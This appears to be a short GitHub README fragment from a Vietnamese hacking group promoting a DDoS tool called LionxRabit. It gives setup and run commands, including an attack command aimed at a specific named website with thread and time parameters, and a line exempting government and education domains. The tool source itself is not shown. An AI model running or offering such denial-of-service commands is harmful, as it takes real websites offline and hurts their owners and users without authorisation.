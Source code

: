 # @2022 Rabit Team X LionTeam Hacking VN DDoS

KHONG DDOS CHINHPHU.VN (GOV,EDU)

python setup.py

python3 LionxRabit -s 100 -t 5 https://nhatquyenit.net/

ĐỢI KHÁ LÂU 
